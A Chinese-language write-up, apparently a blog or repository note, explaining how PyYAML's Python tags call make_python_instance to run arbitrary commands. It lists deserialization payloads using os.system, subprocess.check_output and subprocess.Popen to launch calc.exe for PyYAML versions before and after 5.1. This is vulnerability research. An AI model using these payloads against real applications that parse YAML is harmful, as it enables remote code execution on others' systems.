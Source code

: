 <div align=center><img src="./images/9.png"></div>

这三个`Python`标签中都是调用了`make_python_instance`函数, 跟进查看该函数. 可以看到, 在该函数是会根据参数来动态创建新的`Python`类对象或通过引用`module`的类创建对象, 从而可以执行任意命令.



<div align=center><img src="./images/10.png"></div>

## Payload(PyYaml < 5.1)

```yaml
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:os.system ["calc.exe"]    
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
```

## Pyload(PyYaml >= 5.1)

```python
from yaml import *
data = b"""!!python/object/apply:subprocess.Popen
 - calc"""
deserialized_data = load(data, Loader=Loader)
print(deserialized_data)
```
